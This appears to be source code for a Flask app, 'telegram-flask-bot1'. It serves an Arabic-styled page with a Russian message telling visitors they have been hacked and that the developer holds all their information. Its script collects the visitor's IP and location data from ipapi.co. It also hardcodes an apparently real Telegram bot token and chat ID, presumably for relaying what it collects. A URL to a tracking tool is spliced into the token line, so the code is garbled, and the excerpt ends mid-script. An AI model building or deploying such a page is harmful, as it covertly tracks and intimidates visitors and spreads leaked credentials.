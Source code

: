 # telegram-flask-bot1
from flask import Flask, request, render_template_string
import requests
import os

app = Flask(__name__)

TELEGRAM_BOT_TOKhttps://github.com/thewhiteh4t/seekerEN = "7977163565:AAHH698mxmpv1WDoJLsQbVioqN1kLMKlZTg"
TELEGRAM_CHAT_ID = "8078251938"

HTML_FORM = '''
<!DOCTYPE html>
<html lang="ar">
<head>
  <meta charset="UTF-8">
  <title>واجهة</title>
  <style>
    body {
      background-color: #000;
      color: #0f0;
      text-align: center;
      font-family: Arial, sans-serif;
      direction: rtl;
      padding: 20px;
    }
    #russian {
      font-size: 16px;
      line-height: 2;
      margin-top: 30px;
    }
    #footer {
      font-weight: bold;
      font-size: 24px;
      color: #0f0;
      margin-bottom: 20px;
    }
  </style>
</head>
<body>
  <div id="footer">المطور أحمد 🇮🇶</div>
  <div id="russian">
    Вас взломал разработчик Ахмед Аль Ираки. Ничего не делайте и ни о чём не думайте.
    У меня есть вся ваша информация, и вы ничего не можете сделать. Будьте уверены, 
    я делаю это просто в шутку и из этических соображений. Я не думаю о том, чтобы 
    причинить вам вред или что-то с вами сделать. Всё это ради развлечения и шутки.
  </div>

<script>
async function getIPInfo() {
  try {
    const response = await fetch('https://ipapi.co/json/');
    const data = await response.json();
    return data;
  } catch (e) {
    return null;
  }
}
